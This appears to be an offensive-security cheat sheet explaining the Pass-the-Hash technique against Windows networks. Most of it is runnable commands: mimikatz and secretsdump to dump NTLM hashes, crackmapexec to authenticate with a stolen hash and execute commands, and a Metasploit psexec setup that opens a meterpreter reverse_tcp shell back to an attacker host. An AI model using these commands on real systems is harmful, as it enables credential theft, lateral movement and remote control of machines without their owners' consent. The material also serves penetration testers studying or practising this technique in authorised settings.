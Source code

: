 **Pass the Hash** (PtH) is a post-exploitation technique that allows attackers to authenticate to systems without needing plaintext credentials. Instead, attackers use the **hashed version** of a password directly to access resources. This is possible due to weak authentication protocols, primarily in Windows environments, which validate hashes rather than plaintext passwords.

---

## **Key Concepts**

- **Hash Authentication**: Many Windows services accept NTLM hashes as authentication without verifying the plaintext password.
- **Hash Retrieval**: Hashes are extracted from memory, SAM databases, or network traffic using tools like Mimikatz or secretsdump.
- **Lateral Movement**: Attackers use the retrieved hashes to access additional systems, escalating their control within the network.

--- 

## **Obtain Hashes**

- Extract NTLM hashes from a compromised system using tools like:

```bash
mimikatz sekurlsa::logonpasswords
```

Or dump hashes from the SAM database:

```bash
secretsdump.py <target_user>@<target_ip>
```

## **Use Hashes to authenticate**

#### Using netexec

| Option        | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `<target_ip>` | Target machine's IP address.                               |
| `<username>`  | User account.                                              |
| `<NTLM_hash>` |  Hash (format: `<LM_Hash>:<NT_Hash>` or just `<NT_Hash>`). |

```bash
crackmapexec smb <target_ip> -u <username> -H <NTLM_hash>
```

**Check for Administrative Access**: To see if the hash provides administrative privileges:

```bash
crackmapexec smb <target_ip> -u <username> -H <NTLM_hash> --admin
```

**Execute Commands**: If administrative access is confirmed, you can execute commands:

```bash
crackmapexec smb <target_ip> -u <username> -H <NTLM_hash> -x "whoami"
```

#### Using Metasploit

1. **Search for a Suitable Module**: Use the `psexec` module, which supports NTLM hashes:

```bash
search psexec
use exploit/windows/smb/psexec
```

2. **Configure the Module**: Set the target information and hash:

```bash
set RHOSTS <target_ip>
set SMBUser <username>
set SMBPass <NTLM_hash>
set SMBDomain .
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
```

3. **Execute the Exploit**: Run the exploit to establish a session:

```bash
exploit
# After a successful session, use `meterpreter` commands to gather information or escalate privileges:
meterpreter > sysinfo
meterpreter > getuid
```